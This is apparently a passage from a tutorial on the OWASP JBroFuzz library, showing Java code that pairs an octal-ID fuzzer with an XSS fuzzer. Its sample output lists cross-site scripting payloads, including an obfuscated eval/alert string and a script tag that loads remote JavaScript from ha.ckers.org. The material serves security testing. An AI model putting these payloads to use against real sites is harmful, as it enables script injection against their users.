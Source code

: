     } // HelloDoubleFuzzer.java

That's simple enough; now let's cross-breed something a bit more exotic:
Imagine a 3-digit octal ID value \[000 - 777\] being submitted inline
with, say, a parameter that we want to test for Cross-Site Scripting
(XSS). Let's adjust the program above with the corresponding fuzzer IDs
of these fuzzers. Remember all the IDs of all the fuzzers can be found
in the fuzzers.jbrf file within JBroFuzz.jar:

    import org.owasp.jbrofuzz.core.*;

    public class HelloDoubleFuzzer {

     public static void main(String[] args) {

     Database fuzzDB = new Database();

     String fuzzID1 = "033-B08-OCT";
     String fuzzID2 = "019-XSS-GEK";

     int length1 = 3;
     int length2 = 1;

     try {
         DoubleFuzzer f = fuzzDB.createDoubleFuzzer(fuzzID1, length1, fuzzID2, length2);

         while( f.hasNext() ) {
           // Get the next payload in an array of length[power]
           String [] payloads = f.next();

            // f.getPower() == identicalElements.length, always
            System.out.print(" I have " + f.getPower() + " elements: ");
            // System.out.println(currentValue);

           for(String elem : payloads) {

             System.out.print(elem + " ");
           }
           System.out.println("");

         }
       } catch (NoSuchFuzzerException e) {
           System.out.println("Could not find fuzzer " + e.getMessage());
     }

     }

    } // HelloDoubleFuzzer.java

The output from this program is:

```
 I have 2 elements: 000 (1?(1?{a:1?""[1?"ev\a\l":0](1?"\a\lert":0):0}:0).a:0)[1?"\c\a\l\l":0](content,1?"x\s\s":0)
 I have 2 elements: 001 <STYLE TYPE="text/javascript">alert('XSS');</STYLE>
 I have 2 elements: 002 <SCRIPT SRC=http://ha.ckers.org/xss.js
 I have 2 elements: 003 <A HREF="http://google:ha.ckers.org">XSS</A>
 I have 2 elements: 004 <A HREF="http://ha.ckers.org@google">XSS</A>
 I have 2 elements: 005 <A HREF="//google">XSS</A>
 ....
 ...
 ..
 .
 ..
 ...
 ....
 I have 2 elements: 774 <SCRIPT SRC=http://ha.ckers.org/xss.js
 I have 2 elements: 775 <A HREF="http://google:ha.ckers.org">XSS</A>
 I have 2 elements: 776 <A HREF="http://ha.ckers.org@google">XSS</A>
 I have 2 elements: 777 <A HREF="//google">XSS</A>
```
